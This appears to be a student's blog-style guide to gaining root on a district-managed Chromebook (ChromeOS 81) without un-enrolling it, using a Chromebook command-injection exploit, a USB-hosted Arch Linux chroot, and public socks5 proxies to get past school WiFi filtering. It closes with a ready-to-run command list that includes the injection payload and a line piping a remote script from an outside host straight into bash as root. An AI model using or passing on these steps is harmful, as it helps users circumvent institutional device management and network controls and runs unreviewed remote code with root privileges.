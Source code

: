 # Privelige escalation without un-enrolling

Following the recent discovery of the set_cellular_ppp crosh exploit and the (re)discovery of the various root escalation bugs found within ChromeOS (thanks, CoolElectronics), I saw that it was almost exclusively being used to un-enroll Chromebooks. Quite plainly, that's a terrible idea, and un-enrolling a district-managed Chromebook can result in serious consequences if you get caught.

So I took it upon myself to figure out how to run programs as root on a Chromebook without un-enrolling. Indeed, a daunting task. I set to work immediately, downloading a standalone executable for Firefox. After all, it would be somewhat amusing to run Firefox on a Chromebook, as the two browsers are fierce competitors. So, I downloaded the file with curl and...

```
-bash: ./portable-firefox.sh: /bin/sh: bad interpreter: Permission denied
```

Welp. Since Google is Google, they mounted the whole rootfs partition with noexec enabled, meaning that executables can't be, well, executed from the rootfs. But actually, that isn't quite true. ChromeOS uses a separate partition for the home directory, so, actually, the home directory was mounted as noexec. The rest of the rootfs could have executables run off of it, hence why I could run basic commands at all. And, on top of that, bash and dash are patched to refuse to execute scripts on the home partition. Of course. Thanks, Google.

But isn't there a way to remount these partitions? I do have root access. It turns out that ChromeOS also locks down remounting of the home partition unless you kill the main running processes, including the X server, which would traditionally drop the user to a tty output. But once again, oh-so-inconveniently, the second the processes were killed, the Chromebook restarted.

But what about USB drives? I rushed to grab a USB drive and plug it in, and lo and behold, it worked flawlessly. I was able to mount the drive and run executables from it with no issues whatsoever.

So how do we exploit this? Well, for one thing we can install a chroot (in this case, I chose to use Arch Linux) and use it to install and use packages. So I downloaded a rootfs tarball from one of the Arch Linux mirrors and extracted it in an empty folder on my USB drive (formatted with ext4, to support symlinks within the chroot). My initial attempts failed until I realized my mistake. I also had to mount the various special filesystems onto the chroot directory, then actually chroot into it. And...

```
root@archlinux ~$ 
```

Success! Now we have almost unlimited access to installing practically any software onto a USB drive and running it on a Chromebook! Let's update the pacman databases with `pacman -Sy` and...

```
downloading required keys...
error: key "A6234074498E9CEE" could not be looked up remotely
error: required key missing from keyring
error: failed to commit transaction (unexpected error)
Errors occurred, no packages were upgraded.
```

Ah, of course. School WiFi. It was blocking all requests to the required GPG keyservers, which was preventing my attempts to download the latest packages. But alas, there was no way to get around it... was what I thought for only about 30 seconds. I quickly found a list of socks5 proxies online and tested a couple until I found one that worked. It was working!

And of course, you're still reading this, so you clearly want to know how I did it and what commands I ran. Make sure you're on ChromeOS 81 before you run them. Here's a list of the steps, in order:

```bash
# In crosh
set_cellular_ppp \';bash;exit;\'
# In bash
cd ~
mkdir usbdrv
bash <(curl https://hostz.glitch.me/80.sh)
# Now, plugin your usb drive.
fdisk -l
# Find your device in the list (usually /dev/sda, way at the bottom)
mount /dev/sdX /home/chronos/usbdrv # Your usb drive should replace /dev/sdX
cd /home/chronos/usbdrv
# Chroot setup
curl https://mirrors.mit.edu/archlinux/iso/2023.02.01/archlinux-bootstrap-2023.02.01-x86_64.tar.gz -o archlinux.tar.gz
tar -xvf archlinux.tar.gz
# You should be able to chroot in as normal now, but to perform package managment, you need to mount special filesystems such as /dev, /proc, and /tmp.
# To just chroot, run:
chroot ./root.x86_64
# Or, to mount the special filesystems and chroot
mount -t proc none /home/chronos/usbdrv/root.x86_64/proc
mount -o bind /dev /home/chronos/usbdrv/root.x86_64/dev
mount -o bind /sys /home/chronos/usbdrv/root.x86_64/sys
mount -o bind /run /home/chronos/usbdrv/root.x86_64/run
chroot ./root.x86_64
# If you want to have pacman functional, you need to uncomment a pacman mirror in /etc/pacman.d/mirrorlist
```
